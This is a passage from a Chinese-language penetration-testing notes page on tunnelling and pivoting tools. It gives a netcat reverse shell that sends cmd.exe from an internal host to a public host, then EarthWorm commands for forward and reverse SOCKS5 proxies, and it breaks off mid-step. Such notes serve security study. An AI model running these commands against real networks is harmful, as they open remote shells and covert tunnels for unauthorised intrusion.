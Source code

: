 - 反向连接（Server -> Client）

  公网主机上执行：

  ```cmd
  nc -lvvp 4444
  ```

  内网主机上执行：

  ```cmd
  nc -t -e cmd.exe 公网主机ip 4444 # -t 参数指定通过 telnet 模式执行 cmd.exe
  ```

#### [Xsocks](https://github.com/lparam/xSocks)

Feature：跨平台支持，TCP、UDP 透明代理，并行化。

可结合 Proxifier（Windows）、ProxyChains（Linux）建立 Socks5 通信隧道。

![](/assets/images/move/2020-06-08-10-49-09.png)

#### EarthWorm

[EarthWorm（EW）](http://rootkiter.com/EarthWorm/) 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。EW 能够以正向、反向、多级级联等方式建立网络隧道。新版本为 Termite。


使用方法：

该工具共有 6 种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）。

1. 正向 SOCKS v5 服务器

  ```sh
  $ ./ew -s ssocksd -l 1080
  ```

2. 反弹 SOCKS v5 服务器

  a) 先在一台具有公网 ip 的主机 A 上运行以下命令：

  ```sh
  $ ./ew -s rcsocks -l 1080 -e 8888 
  ```
  b) 在目标主机 B 上启动 SOCKS v5 服务 并反弹到公网主机的 8888 端口
